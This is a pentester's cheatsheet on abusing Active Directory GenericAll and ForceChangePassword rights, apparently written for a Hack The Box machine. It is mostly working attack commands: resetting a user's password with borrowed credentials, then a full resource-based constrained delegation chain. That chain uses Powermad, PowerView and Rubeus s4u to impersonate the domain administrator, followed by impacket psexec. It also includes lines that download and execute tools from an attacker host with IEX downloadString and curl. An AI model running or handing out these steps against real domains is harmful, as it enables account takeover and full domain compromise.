 # GenricAll

GenricAll Permission
```powershell
# $cred is the user with generic write
$user = '$username-with-generic-write'
$pass = ConvertTo-SecureString 'yourpasswordgoeshere' -AsPlainText -Force
$cred = Net-Object System-Management.automation.pscredential $user,$pass
# Run a command on remote box, but we are using another users credentials
Invoke-Command -computername 127.0.0.1 -ScriptBlock {Set-AdAccountPassword -Identity $targetuser -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Password123!' -Force)} -Credential $cred 
```
Then Wmi remote in with [[Impacket-Cheatsheet]]
```bash
impacket-wmiexec.py '$domain/$user:$password@domain.local'
```

ForceChangePassword - Bloodhound and [[PowerView-Cheatsheet]]
```powershell
$newpass = ConvertTo-SecureString 'yourpasswordgoeshere' -AsPlainText -Force
# Powerview command
Set-DomainUserPassword -Identity $target -AccountPassword $newPass
```

To Remove GenericAll from user, exchange user or security group
```powershell
Remove-ADPermission -Identity dc.support.htb -User '$userORexchangeuserORsecuritygroup' -AccessRights GenericAll
```


## GenericAll Abuse 

Create a machine account with password and the permission to be `AllowedToActOnBehalfOfOtherIdentity` , then to forge a self-signed a ticket to impersonate a user in the explained  given below by Bloodhound:

Full control of a computer object can be used to perform a resource based constrained delegation attack. Abusing this primitive is currently only possible through the Rubeus ([[Rubeus-Cheatsheet]] project.  First, if an attacker does not control an account with an SPN set, [Kevin Robertson's Powermad project](https://github.com/Kevin-Robertson/Powermad) can be used to add a new attacker-controlled computer account:

Download:
```powershell
PS C:\programdata> curl http://10.10.10.10/Rubeus.exe -o Rubeus.exe
C:\programdata> IEX(New-Object Net.WebClient).downloadString('http://10.10.10.10/PowerView.ps1')
PS C:\programdata> IEX(New-Object Net.WebClient).downloadString('http://10.10.10.10/Powermad.ps1')
# Check if you create machine
Get-DomainObject -Identity 'DC=DOMAIN,DC=TLD' | ms-ds-machineaccountquota
```


```powershell
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
```

[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) - [[PowerView-Cheatsheet]] - can be used to then retrieve the security identifier (SID) of the newly created computer account:

```powershell
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
```

We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE:

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

Next, we need to set this newly created security descriptor in the `msDS-AllowedToActOnBehalfOfOtherIdentity` field of the computer account we're taking over, again using PowerView in this case:

```powershell
Get-DomainComputer attackersystem | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

[SharpCollection: Rubeus](https://github.com/Flangvik/SharpCollection.git) or [Ghostpack/Rubeus](https://github.com/GhostPack/Rubeus)
We can then use [[Rubeus-Cheatsheet]] to hash the plaintext password into its RC4_HMAC form:

```bash
Rubeus.exe hash /password:Summer2018!
```

And finally we can use Rubeus' *s4u* module to get a service ticket for the service name (sname) we want to "pretend" to be "admin" for. This ticket is injected (thanks to /ptt), and in this case grants us access to the file system of the TARGETCOMPUTER:

```bash
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt
```

Remove paste to vim, remove all spaces and save - [[Vim-Cheatsheet]]
```lua
:set paste
%s/ //g
:wq ticket.kirbi.b64
```

Decode Ticket, Convert the Ticket, export KRB5CCNAME variable and psexec with [[Impacket-Cheatsheet]]
```bash
base64 -d ticket.kirbi.b64 > ticket.kirbi 
impacket-ticketConverter ticket.kirbi ticket.ccache
export KRB5CCNAME=ticket.kirbi
impacket-psexec -k -no-pass support.htb/administrator@dc.support.htb
```

## References

[Bloodhound](https://bloodhound.readthedocs.io/en/latest/)